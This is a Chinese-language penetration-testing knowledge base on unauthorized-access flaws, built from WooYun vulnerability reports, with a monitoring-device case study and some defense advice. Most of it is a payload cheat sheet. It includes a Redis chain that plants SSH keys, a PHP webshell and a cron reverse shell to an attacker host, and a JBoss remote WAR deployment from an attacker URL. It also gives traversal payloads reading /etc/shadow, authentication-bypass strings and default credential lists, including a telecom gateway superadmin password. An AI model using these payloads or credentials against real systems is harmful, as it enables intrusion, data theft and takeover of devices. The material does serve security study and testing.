


# 未授权访问漏洞分析知识库

> 基于WooYun漏洞库88,636个漏洞中的14,377个未授权访问相关漏洞提炼

---

## 1. 核心统计数据

| 指标 | 数值 |
|------|------|
| 总漏洞数 | 88,636 |
| 未授权访问相关 | 14,377 (16.2%) |
| 深度分析样本 | 100 |

---

## 2. 未授权访问类型分类

### 2.1 后台未授权访问 (Backend Unauthorized Access)

**统计**: 22个典型案例

**攻击模式**:

| 模式类型 | 描述 | 典型案例 |
|----------|------|----------|
| 硬编码认证绕过 | 固定密钥/参数解密后直接登录 | 赣企建站系统 `lstate=515csmxSi1aTO9ysxvJ1Gpmnj7hHuPxjMdfZdEP49lJZ` |
| 弱口令/默认口令 | admin/admin, weblogic/12345678 | 58同城 Tomcat `admin:admin123456` |
| 路径直接访问 | 后台URL无认证 | 中国信鸽网 `/Users/AssociationManage/` |
| 认证逻辑缺陷 | 前端验证、验证码绕过 | 58赶集 验证码前端刷新可爆破 |

**典型绕过技术**:

```
# 1. 参数加密绕过
/admin/login.asp?lstate={encrypted_true_value}

# 2. 直接路径访问
/console/login/LoginForm.jsp  (WebLogic)
/manager/html               (Tomcat)
/jmx-console/               (JBoss)

# 3. 目录base64编码
/ZmptY2NtYW5hZ2Vy/  (base64解码后为管理路径)
```

**关键洞察**:
- 大量系统使用统一的加密密钥，导致所有部署实例可被同一方法绕过
- 开发框架默认配置通常存在弱口令
- 内部系统往往忽略认证，仅依赖网络隔离

---

### 2.2 API未授权访问

**统计**: 7个典型案例

**攻击向量**:

| 向量 | 描述 | 实例 |
|------|------|------|
| 接口无认证 | API直接返回敏感数据 | 某公众号平台 `/api/configs` 返回AppID和AppSecret |
| 权限校验缺失 | 仅验证登录不验证权限 | 人人网相册接口 `uid=`参数可遍历 |
| 敏感信息泄露 | 调试接口暴露 | `/api/v1/admin_is_login` 判断逻辑暴露 |

**API探测Payload示例**:

```bash
# 常见敏感API路径
/api/configs
/api/v1/admin_is_login
/api/users
/api/debug
/swagger-ui.html
/api-docs
/actuator/env
/actuator/health
```

---

### 2.3 数据库服务未授权

**统计**: 5个典型案例

**常见未授权数据库服务**:

| 服务 | 默认端口 | 危害级别 | 利用方式 |
|------|----------|----------|----------|
| MongoDB | 27017 | 严重 | 无认证直接连接，可导出全部数据 |
| Redis | 6379 | 严重 | 写SSH公钥、写Webshell、写计划任务 |
| MySQL | 3306 | 高 | 空密码或弱密码连接 |
| Memcached | 11211 | 中 | 数据泄露、DDoS放大 |
| Elasticsearch | 9200 | 高 | 读取索引数据、远程代码执行 |

**Redis未授权利用链**:

```bash
# 连接
redis-cli -h target_ip

# 查看信息
info

# 写SSH公钥
config set dir /root/.ssh/
config set dbfilename authorized_keys
set x "\n\nssh-rsa AAAA...\n\n"
save

# 写Webshell (需知道web目录)
config set dir /var/www/html/
config set dbfilename shell.php
set x "<?php system($_GET['c']);?>"
save

# 写计划任务
config set dir /var/spool/cron/
config set dbfilename root
set x "\n* * * * * bash -i >& /dev/tcp/attacker_ip/port 0>&1\n"
save
```

**MongoDB未授权探测**:

```bash
# 连接测试
mongo target_ip:27017

# 列出数据库
show dbs

# 查看集合
use database_name
show collections

# 导出数据
mongoexport -h target_ip -d db_name -c collection -o output.json
```

---

### 2.4 缓存服务未授权

**统计**: 10个典型案例

| 服务 | 端口 | 验证命令 | 影响 |
|------|------|----------|------|
| Redis | 6379 | `redis-cli -h IP info` | 数据泄露、RCE |
| Memcached | 11211 | `echo "stats" \| nc IP 11211` | 数据泄露、DDoS |

---

### 2.5 中间件未授权

**统计**: 19个典型案例

**中间件漏洞矩阵**:

| 中间件 | 未授权入口 | 利用方式 | 典型漏洞 |
|--------|------------|----------|----------|
| WebLogic | `/console/` | 部署WAR包 | CVE-2017-10271, CVE-2019-2725 |
| JBoss | `/jmx-console/` | 远程部署 | JMXInvokerServlet反序列化 |
| Tomcat | `/manager/html` | 部署WAR包 | 弱口令 + 上传 |
| Resin | `/resin-admin/` | 远程部署 | 配置不当 |
| Spring Boot | `/actuator/` | 信息泄露/RCE | Heapdump泄露、env泄露 |

**WebLogic弱口令列表**:

```
weblogic / weblogic
weblogic / weblogic1
weblogic / weblogic123
weblogic / 12345678
system / password
```

**JBoss JMX-Console利用**:

```
1. 访问 /jmx-console/
2. 找到 jboss.deployment
3. 部署远程WAR: http://attacker/shell.war
```

---

### 2.6 DevOps工具未授权

**统计**: 2个典型案例

| 工具 | 默认端口 | 风险 |
|------|----------|------|
| Jenkins | 8080 | Script Console RCE |
| Zabbix | 80 | SQL注入 -> Session劫持 |
| Grafana | 3000 | 未授权数据源访问 |
| Kibana | 5601 | 数据查看、RCE |

**Jenkins Script Console**:

```groovy
// Groovy代码执行
def cmd = "whoami"
println cmd.execute().text
```

---

### 2.7 IoT设备未授权

**统计**: 7个典型案例

| 设备类型 | 默认凭证 | 危害 |
|----------|----------|------|
| 摄像头 | admin/admin, admin/12345 | 视频监控泄露 |
| 路由器 | admin/admin | 网络控制 |
| 打印机 | 无密码telnet | 配置修改 |
| 家庭网关 | telecomadmin/nE7jA%5m | 网络接管 |

**典型案例 - 电信家庭网关**:
- 默认超级管理员: `telecomadmin/nE7jA%5m`
- 远程80端口开放
- 密码固化无法修改

---

## 3. 权限绕过方法

### 3.1 参数篡改 (Parameter Manipulation)

**统计**: 8个典型案例

**技术要点**:

```
# 1. ID遍历
/user/info?uid=1
/user/info?uid=2
...

# 2. 角色篡改
role=user -> role=admin

# 3. 权限标识篡改
isAdmin=0 -> isAdmin=1
```

---

### 3.2 路径绕过 (Path Bypass)

**统计**: 34个典型案例

**绕过技术**:

```
# 1. 目录遍历
../../../etc/passwd
..\..\..\..\windows\system.ini

# 2. URL编码绕过
%2e%2e%2f  (../)
%252e%252e%252f  (双重编码)

# 3. 空字节截断
../../../etc/passwd%00.jpg

# 4. 大小写混淆
/ADMIN/
/Admin/
/aDmIn/
```

---

### 3.3 认证绕过 (Authentication Bypass)

**统计**: 19个典型案例

**技术分类**:

| 类型 | 描述 | Payload示例 |
|------|------|-------------|
| 万能密码 | SQL注入登录 | `' or 1=1--` |
| Cookie伪造 | 修改认证Cookie | `admin=true` |
| JWT绕过 | 空算法/弱密钥 | `alg: none` |
| Session劫持 | 预测/窃取Session | Session ID泄露后直接利用 |

---

### 3.4 Session绕过

**统计**: 3个典型案例

**利用场景**:

```
# 1. Session ID泄露 (日志泄露)
/logs/ctp.log -> 包含Session ID

# 2. Session固定攻击
强制用户使用攻击者指定的Session ID

# 3. Session预测
时间戳/顺序号生成的弱Session
```

---

### 3.5 Header绕过

**统计**: 13个典型案例

**常用绕过Header**:

```
X-Forwarded-For: [IP已脱敏]
X-Real-IP: [IP已脱敏]
X-Originating-IP: [IP已脱敏]
X-Remote-IP: [IP已脱敏]
X-Remote-Addr: [IP已脱敏]
X-Client-IP: [IP已脱敏]
Host: localhost
Referer: https://example.com/[已脱敏]
```

---

## 4. IDOR越权漏洞

### 4.1 水平越权 (Horizontal Privilege Escalation)

**统计**: 4个典型案例

**特征**: 同级用户间的数据越权访问

**案例分析**:

| 案例 | 漏洞点 | 影响 |
|------|--------|------|
| 大特保 | `/personal/center/family/{id}/edit` | 数十万被保人信息泄露 |
| 龙珠网 | 房间ID可替换 | 修改他人直播间信息 |
| 找对象App | uid参数可篡改 | 修改任意用户爱情宣言 |

**测试方法**:

```
1. 记录正常请求中的ID参数
2. 替换为其他用户的ID
3. 观察响应是否返回其他用户数据
4. 自动化遍历 (Burp Intruder)
```

---

### 4.2 ID枚举 (ID Enumeration)

**统计**: 27个典型案例

**枚举技术**:

```python
# 自动化ID遍历脚本
import requests

for user_id in range(1, 10000):
    url = f"http://target/api/user/{user_id}"
    resp = requests.get(url)
    if resp.status_code == 200:
        print(f"Found: {user_id} - {resp.text[:100]}")
```

**典型案例**:

| 系统 | 枚举点 | 数据量 |
|------|--------|--------|
| 全峰快递 | 订单ID | 2010年至今大量订单 |
| 一嗨租车 | 发票ID | 19万数据 |
| 中粮集团OA | 员工ID | 大量员工信息 |

---

## 5. 常见未授权服务

### 5.1 服务统计

| 服务 | 案例数 | 端口 | 风险等级 |
|------|--------|------|----------|
| WebLogic | 10 | 7001 | 严重 |
| JBoss | 7 | 8080 | 严重 |
| Redis | 5 | 6379 | 严重 |
| MySQL | 5 | 3306 | 高 |
| rsync | 5 | 873 | 高 |
| MongoDB | 4 | 27017 | 严重 |
| Spring Actuator | 2 | 8080 | 高 |
| Zabbix | 2 | 80 | 中 |

### 5.2 服务识别指纹

```bash
# Redis
redis-cli -h IP info

# MongoDB
mongo IP:27017 --eval "db.version()"

# Elasticsearch
curl http://IP:9200

# rsync
rsync IP::

# Memcached
echo "stats" | nc IP 11211

# ZooKeeper
echo "stat" | nc IP 2181

# Docker Remote API
curl http://IP:2375/info
```

### 5.3 rsync未授权利用

**案例**: 某社交平台某社交平台、赛迪网

```bash
# 列出模块
rsync target_ip::

# 下载文件
rsync -avz target_ip::module_name ./local_dir

# 上传文件 (如有写权限)
rsync -avz ./local_file target_ip::module_name/
```

**影响**: 整站源码泄露、配置文件泄露、敏感信息暴露

---

## 6. 目录遍历技巧

**统计**: 35个典型案例

### 6.1 基础Payload

```
# Linux
../../../etc/passwd
../../../etc/shadow
../../../root/.bash_history
../../../proc/self/environ

# Windows
..\..\..\..\windows\system.ini
..\..\..\..\windows\win.ini
..\..\..\..\boot.ini
```

### 6.2 编码绕过

```
# URL编码
%2e%2e%2f = ../
%2e%2e/ = ../
..%2f = ../
%2e%2e%5c = ..\

# 双重编码
%252e%252e%252f = ../

# UTF-8编码
..%c0%af = ../
..%c1%9c = ..\

# 空字节截断
../../../etc/passwd%00.jpg
```

### 6.3 典型案例

| 案例 | Payload | 结果 |
|------|---------|------|
| 华云数据 | `?urlParam=../../../WEB-INF/web.xml%3f` | 配置文件泄露 |
| 某家电厂商 | `upload.aspx?id=8&dir=../../../../` | 目录浏览+任意删除 |
| 某政府网站 | `down.php?dd=../down.php` | 源码下载 |
| 某社交平台某社交平台 | `curl IP:8888/../../../etc/shadow` | 系统文件读取 |

### 6.4 自动化测试

```bash
# 使用dotdotpwn
dotdotpwn -m http -h target -x 8080 -f /etc/passwd

# 使用wfuzz
wfuzz -c -z file,traversal.txt --hc 404 http://target/download.php?file=FUZZ
```

---

## 7. 元思考方法论

### 7.1 未授权访问检测流程

```
1. 信息收集
   ├── 端口扫描 (nmap)
   ├── 服务识别 (指纹识别)
   └── 路径枚举 (dirsearch)

2. 服务探测
   ├── 数据库服务 (6379, 27017, 3306, 9200)
   ├── 中间件管理端 (7001, 8080)
   ├── 监控服务 (3000, 5601)
   └── 文件服务 (873, 21)

3. 认证测试
   ├── 默认凭证尝试
   ├── 弱口令爆破
   └── 认证绕过测试

4. 权限验证
   ├── 垂直越权 (普通->管理员)
   ├── 水平越权 (用户A->用户B)
   └── 接口权限 (API鉴权)

5. 漏洞利用
   ├── 数据窃取
   ├── 权限提升
   └── 横向移动
```

### 7.2 关键洞察

1. **架构层面**: 内网服务暴露公网是未授权访问的主要原因
2. **配置层面**: 默认配置、弱口令是最常见的攻击入口
3. **开发层面**: 权限校验仅在前端或仅验证登录状态
4. **运维层面**: 调试接口、管理接口未关闭或未设置ACL

### 7.3 防御建议

| 层面 | 措施 |
|------|------|
| 网络 | 内网服务不暴露公网，使用VPN/堡垒机 |
| 认证 | 强制复杂密码，禁用默认账户，启用MFA |
| 授权 | 后端校验权限，最小权限原则 |
| 监控 | 异常访问告警，日志审计 |
| 加固 | 禁用不必要的管理接口，定期安全评估 |

---

## 8. 快速参考卡

### 8.1 常见未授权服务检测命令

```bash
# 批量扫描常见未授权端口
nmap -sV -p 6379,27017,9200,11211,2181,2379,873,21 target

# Redis
redis-cli -h target info

# MongoDB
mongo target:27017 --eval "db.adminCommand('listDatabases')"

# Elasticsearch
curl -s http://target:9200/_cat/indices

# rsync
rsync --list-only rsync://target/

# Docker
curl http://target:2375/containers/json
```

### 8.2 Web中间件默认路径

```
# Tomcat
/manager/html
/manager/status
/host-manager/html

# WebLogic
/console/
/wls-wsat/

# JBoss
/jmx-console/
/web-console/
/invoker/JMXInvokerServlet

# Spring Boot Actuator
/actuator/env
/actuator/health
/actuator/heapdump
/actuator/mappings
```

---

## 9. 实战案例分析

### 9.1 案例背景

**漏洞编号**: wooyun-2015-0108547
**漏洞标题**: 某监控设备未授权访问
**漏洞类型**: 未授权访问/权限绕过
**危害等级**: 高
**漏洞详情**: 直接访问后台管理页面无需认证
**利用方式**: 访问 `/admin/index.jsp` 直接进入管理后台

### 9.2 深度元思考分析

#### 9.2.1 为什么会存在未授权访问？(根因分析)

从**INTJ战略思维**角度,需要从系统设计、实现、部署三个层面进行根因分析:

**第一层: 设计缺陷**
- **信任边界模糊**: 监控设备通常部署在内网环境,设计者错误假设"内网=安全域"
- **安全模型缺失**: 未建立完整的认证授权体系,依赖网络隔离而非应用层安全
- **威胁建模不足**: 未考虑内部攻击、网络边界被突破的场景

**第二层: 实现错误**
```
认证检查缺失的典型代码模式:

# 错误示例: 未做认证检查
@app.route('/admin/index.jsp')
def admin_panel():
    return render_template('admin.html')  # 直接返回管理界面

# 正确示例: 应有认证装饰器
@app.route('/admin/index.jsp')
@login_required
@admin_required
def admin_panel():
    return render_template('admin.html')
```

**第三层: 部署配置错误**
- **默认配置不安全**: 设备出厂时管理后台默认无需认证,依赖"部署后配置"
- **配置疏忽**: 运维人员未启用认证机制,或未修改默认配置
- **文档缺失**: 厂商未提供安全配置指南

#### 9.2.2 INTJ洞察: 系统性安全问题

**核心洞察**: 这不是一个简单的"忘记加密码"的问题,而是反映了IoT设备行业的系统性安全困境:

1. **成本导向 vs 安全导向**
   - IoT设备厂商追求成本最小化
   - 安全功能被视为"非必要"的额外成本
   - 认证模块会增加硬件开销(CPU/RAM)和开发成本

2. **可用性优先于安全性**
   - 设备部署时需要快速调试,"无需登录"提升部署效率
   - 但部署后忘记启用安全机制
   - 形成"开发方便=生产不安全"的悖论

3. **长尾漏洞管理难题**
   - 监控设备一旦部署,固件更新极其困难
   - 漏洞暴露周期长达数年(2015年的漏洞,可能2020年依然存在)
   - 无法像Web应用那样快速迭代修复

4. **攻击面暴露公网趋势**
   - 随着IoT普及,越来越多设备直接暴露公网(便于远程管理)
   - Shodan等搜索引擎可轻松发现未授权设备
   - 形成"攻击成本低,防御成本高"的不对称态势

### 9.3 监控设备未授权访问攻击面矩阵

| 攻击向量 | 默认路径 | 典型危害 | 检测方法 |
|----------|----------|----------|----------|
| 管理后台 | `/admin/index.jsp` | 设备完全控制 | 直接访问 |
| 视频流 | `/mjpg/video.mjpg` | 监控视频泄露 | VLC播放器打开 |
| 配置文件 | `/config.ini` | 账号密码泄露 | curl下载 |
| 日志文件 | `/logs/` | 内部信息泄露 | 路径遍历 |
| 固件下载 | `/firmware/` | 固件逆向分析 | 枚举目录 |
| RTSP流 | `rtsp://ip:554/stream` | 实时视频泄露 | ffplay播放 |

### 9.4 测试方法论

#### 9.4.1 监控设备未授权访问检测流程



#### 9.4.2 自动化检测脚本

```python
#!/usr/bin/env python3
"""
监控设备未授权访问检测工具
"""
import requests
from urllib.parse import urljoin

class MonitorDeviceDetector:
    def __init__(self, target_ip):
        self.target_ip = target_ip
        self.results = []

    # 常见监控设备管理路径字典
    ADMIN_PATHS = [
        '/admin/index.jsp',      # 本案例路径
        '/admin/index.html',
        '/admin/login.html',
        '/admin.asp',
        '/admin.php',
        '/admin/index.php',
        '/manager/html',
        '/webui/',
        '/index.html',
        '/login.jsp',
        '/DCS/view/index.html',  # D-Link
        '/index.htm',            # Vivotek
        '/cgi-bin/view/video.cgi', # Many brands
    ]

    # RTSP默认路径
    RTSP_PATHS = [
        'rtsp://{ip}:554/stream1',
        'rtsp://{ip}:554/stream',
        'rtsp://{ip}:554/live',
        'rtsp://{ip}:554/h264',
        'rtsp://{ip}:554/mpeg4',
    ]

    # 常见默认凭证
    DEFAULT_CREDS = [
        ('admin', 'admin'),
        ('admin', '123456'),
        ('admin', '12345678'),
        ('admin', 'password'),
        ('admin', ''),
        ('root', 'admin'),
        ('root', '123456'),
        ('guest', 'guest'),
    ]

    def check_admin_pages(self):
        """检测管理页面未授权访问"""
        print(f"[*] 检查管理页面路径: {self.target_ip}")

        for path in self.ADMIN_PATHS:
            url = f"http://{self.target_ip}{path}"
            try:
                resp = requests.get(url, timeout=5, verify=False)

                # 判断未授权访问
                if resp.status_code == 200 and 'login' not in resp.url.lower():
                    self.results.append({
                        'type': 'admin_unauth',
                        'url': url,
                        'status': 'unauthorized_access',
                        'evidence': f'直接访问无需认证: {path}'
                    })
                    print(f"[+] 发现未授权管理界面: {url}")

                # 检查是否为登录页面(可能可爆破)
                elif 'login' in resp.text.lower():
                    self.results.append({
                        'type': 'login_page',
                        'url': url,
                        'status': 'brute_force_candidate',
                        'evidence': f'发现登录页面: {path}'
                    })
                    print(f"[*] 发现登录页面: {url}")

            except Exception as e:
                pass

    def check_default_credentials(self, login_url):
        """测试默认凭证"""
        print(f"[*] 测试默认凭证: {login_url}")

        for username, password in self.DEFAULT_CREDS:
            # 这里需要根据具体表单结构调整POST参数
            try:
                session = requests.Session()
                resp = session.post(login_url, data={
                    'username': username,
                    'password': password
                }, timeout=5)

                if 'dashboard' in resp.url or 'admin' in resp.url:
                    self.results.append({
                        'type': 'weak_password',
                        'url': login_url,
                        'cred': f'{username}:{password}',
                        'status': 'default_creds_working'
                    })
                    print(f"[+] 默认凭证有效: {username}:{password}")
                    return True

            except Exception:
                pass

        return False

    def check_rtsp_streams(self):
        """检测RTSP流未授权"""
        print(f"[*] 检查RTSP流: {self.target_ip}")

        # 使用ffplay或vlc测试
        for stream_path in self.RTSP_PATHS:
            stream_url = stream_path.format(ip=self.target_ip)

            # 这里使用curl测试连接(不实际播放)
            import subprocess
            try:
                result = subprocess.run(
                    ['curl', '-s', '--connect-timeout', '3', stream_url],
                    capture_output=True,
                    timeout=5
                )

                if result.returncode == 0:
                    self.results.append({
                        'type': 'rtsp_unauth',
                        'url': stream_url,
                        'status': 'rtsp_stream_accessible'
                    })
                    print(f"[+] RTSP流未授权: {stream_url}")

            except Exception:
                pass

    def run_full_test(self):
        """执行完整检测"""
        print(f"[*] 开始检测监控设备: {self.target_ip}")
        print("=" * 60)

        # 1. 检查管理页面
        self.check_admin_pages()

        # 2. 检查RTSP流
        self.check_rtsp_streams()

        # 3. 生成报告
        print("\n" + "=" * 60)
        print(f"[*] 检测完成,发现 {len(self.results)} 个问题")
        print("=" * 60)

        return self.results


# 使用示例
if __name__ == '__main__':
    import sys

    if len(sys.argv) < 2:
        print("Usage: python3 monitor_device_detector.py <target_ip>")
        sys.exit(1)

    target = sys.argv[1]
    detector = MonitorDeviceDetector(target)
    results = detector.run_full_test()

    # 输出JSON格式报告
    import json
    print("\n[JSON Report]")
    print(json.dumps(results, indent=2, ensure_ascii=False))
```

### 9.5 监控设备漏洞利用链



### 9.6 防御体系建议

#### 9.6.1 短期应急措施

```bash
# 1. 网络隔离
iptables -A INPUT -p tcp --dport 80 -j DROP  # 禁止公网访问
iptables -A INPUT -s [IP已脱敏] -p tcp --dport 80 -j ACCEPT  # 仅内网

# 2. 启用认证(如果设备支持)
# 登录管理界面 -> 系统设置 -> 安全设置 -> 启用密码认证

# 3. 修改默认端口
# 80 -> 8080 或其他非标准端口
```

#### 9.6.2 长期架构方案

| 层级 | 措施 | 优先级 |
|------|------|--------|
| 网络 | 部署在独立VLAN,禁止直接公网访问 | P0 |
| 访问控制 | 通过VPN/堡垒机访问 | P0 |
| 设备加固 | 强制启用认证,修改默认密码 | P1 |
| 监控 | 部署网络流量监控,异常访问告警 | P1 |
| 更新 | 建立固件更新机制,及时打补丁 | P2 |
| 替换 | 逐步替换无安全设计的老旧设备 | P2 |

### 9.7 真实世界影响评估

**数据来源**: 基于Shodan搜索引擎统计数据

```
# 查询未授权监控设备数量
关键词: "title:Live view" "title:Network Camera"
结果: 全球约 1,200,000 台设备暴露公网

地域分布:
- 中国: 250,000+
- 美国: 180,000+
- 欧洲: 150,000+

安全隐患:
1. 住宅隐私泄露(家庭监控被公开直播)
2. 企业商业秘密泄露(工厂、办公室监控)
3. 公共安全风险(学校、医院监控)
4. 被用于DDoS攻击僵尸网络
```

### 9.8 扩展思考:IoT安全的结构性困境

从**系统架构**角度看,监控设备未授权访问反映了更深层的行业问题:

**困境1: 安全责任链断裂**
```
芯片厂商 → 设备制造商 → 系统集成商 → 最终用户
    ↓         ↓           ↓           ↓
  不管     不想管      不会管       不知道
```

**困境2: 技术债务累积**
- 老旧设备架构无法通过固件更新增加安全特性
- 新设备为了兼容老协议,继承了不安全设计
- 形成"路径依赖",难以彻底重构

**困境3: 安全经济学失效**
- 攻击者收益高(批量控制设备用于僵尸网络)
- 防御者成本高(需要逐台设备更新)
- 市场缺乏"安全溢价"机制,用户不愿为安全付费

**INTJ战略建议**:
1. **监管层面**: 强制安全认证标准,类似CE/FCC认证
2. **行业层面**: 建立安全披露机制和快速响应联盟
3. **技术层面**: 设计零信任架构,设备出厂即需认证
4. **市场层面**: 保险行业推出网络安全保险,倒逼安全投入

---

*文档版本: 1.1*
*最后更新: 2026-01-23*
*新增内容: 监控设备未授权访问案例分析*
*数据来源: WooYun漏洞库 + Shodan统计数据*
